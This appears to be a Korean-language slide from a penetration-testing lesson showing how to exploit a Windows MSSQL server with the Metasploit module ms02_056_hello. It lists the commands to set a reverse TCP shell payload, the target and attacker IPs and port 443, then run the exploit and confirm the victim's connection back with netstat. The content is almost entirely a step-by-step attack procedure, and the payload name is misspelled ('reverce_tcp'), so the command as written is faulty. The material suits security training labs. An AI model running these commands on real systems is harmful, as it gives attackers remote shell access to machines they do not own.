

# ms02_056_hello.rb 모듈을 이용한 침투
ms02_056_hello.rb 모듈을 사용
use exploit/windows/mssql/ms02_056_hello
set payload windows/shell/reverce_tcp	//역방향접속!!
set rhost 윈도우ip
set lhost 공격자ip
set lport 443
exploit

접속성공
netstat -n 으로 확인해보면 윈도우(공격대상자)가 칼리(공격자)에게 접속한 내용 확인 가능
9